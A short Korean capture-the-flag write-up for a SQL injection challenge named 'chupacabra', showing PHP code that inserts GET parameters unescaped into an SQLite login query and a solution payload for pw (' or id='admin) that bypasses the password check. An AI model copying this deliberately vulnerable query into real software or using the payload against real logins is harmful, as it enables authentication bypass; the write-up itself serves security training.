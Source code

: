 # chupacabra

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/chupacabra.db");
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("chupacabra");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- sqlite를 사용한다.   
- 별다른 방어책이 없다.   

## 3. Solution
sqlite로 바뀐것을 제외하곤, 유심히 볼 것이 없다.   

공격 코드는 다음과 같다.   

변수명 | 값
---|---:
`pw` | ' or id='admin